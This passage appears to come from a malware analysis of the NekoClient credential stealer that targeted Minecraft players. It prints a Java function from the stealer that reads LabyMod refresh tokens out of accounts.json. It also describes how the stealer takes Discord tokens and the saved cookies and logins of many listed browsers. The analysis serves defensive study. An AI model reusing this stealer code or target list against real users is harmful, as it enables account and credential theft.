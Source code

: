 The retrival logic (Seen in [`dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/msa/impl/MSAStealer.java)) looks similar across a number of items since they store this data in a similr way. For example here is the laby-mod code:
```java
private static void retrieveRefreshTokensFromLabyMod(List<RefreshToken> refreshTokens) throws IOException {
	String appdata = System.getenv("APPDATA");
	if (Platform.isWindows() || Objects.isNull(appdata)) {
		Path path = appdata == null ? null : Paths.get(appdata, ".minecraft", "LabyMod", "accounts.json");
		if (Files.isReadable(path)) {
			extractRefreshTokensFromLabyModLauncher(refreshTokens, Json.parse(Files.readString(path)).asObject());
		}
	}
}
```
The code for retrieving tokens from Feather/PolyMC/Prism are essentially identical.

The change from this strategy to the vanilla launchers is that the Json has an additional layer of cryptography protecting it.

The change from this strategy to technic is that technic stores credentials using Java's built-in object serialization, wrapping the `com.google.api.client.auth.oauth2.StoredCredential` type.

**Discord tokens**: Everyone's seen a token-stealer before. Affects the standard client, canary, ptb, and lightcord clients.

**Cookies & Saved credentials**: Steals saved cookies and login credentials saved in affected browsers.  Relevant source: [`dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java`](https://github.com/clrxbl/NekoClient/blob/main/dev/neko/nekoclient/api/stealer/browser/impl/BrowserDataStealer.java)

- Mozilla Firefox
  - Waterfox
  - Pale Moon
  - SeaMonkey
- Chrome
  - Edge
  - Brave
  - Vivaldi
  - Yandex
  - Slimjet
  - CentBrowser
  - Comodo
  - Iridium
  - UCBrowser
  - Opera
    - Beta
    - Developer
    - Stable
    - GX
    - Crypto
  - CryptoTab
